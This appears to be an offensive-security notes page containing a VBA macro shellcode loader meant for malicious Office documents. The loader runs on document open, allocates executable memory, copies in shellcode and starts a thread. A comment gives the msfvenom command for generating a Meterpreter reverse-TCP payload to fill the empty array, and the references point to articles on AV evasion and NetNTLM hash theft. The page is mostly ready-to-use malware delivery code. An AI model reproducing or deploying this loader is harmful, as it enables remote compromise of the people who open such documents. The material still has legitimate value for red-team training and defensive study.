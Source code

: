 # VBA

```vb
#If Vba7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As LongPtr, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Destination As LongPtr, ByRef Source As Any, ByVal Length As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal lpThread As Long, ByVal dwSize As Long, ByVal lpAddress As Long, lpParameter As Long, ByVal dwCreation As Long, lpThread As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocation As Long, ByVal flProtect As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Destination As Long, ByRef Source As Any, ByVal Length As Long) As Long
#EndIf

Sub Auto_Open()
        Dim myByte As Long, myArray As Variant, offset As Long
#If Vba7 Then
        Dim rwxpage As LongPtr, res As LongPtr
#Else
        Dim rwxpage As Long, res As Long
#EndIf
        ' Replace this shellcode with:
        ' msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f vba
        myArray = Array()

        rwxpage = VirtualAlloc(0, UBound(myArray), &H1000, &H40)
        For offset = LBound(myArray) To UBound(myArray)
                myByte = myArray(offset)
                res = RtlMoveMemory(rwxpage + offset, myByte, 1)
        Next offset
        res = CreateThread(0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Malware Development/Payload Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

### San3ncrypt3d

- [San3ncrypt3d: Running ShellCode in Memory | AV Evasion – VBA Version](https://san3ncrypt3d.com/2021/08/13/VBAShell/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)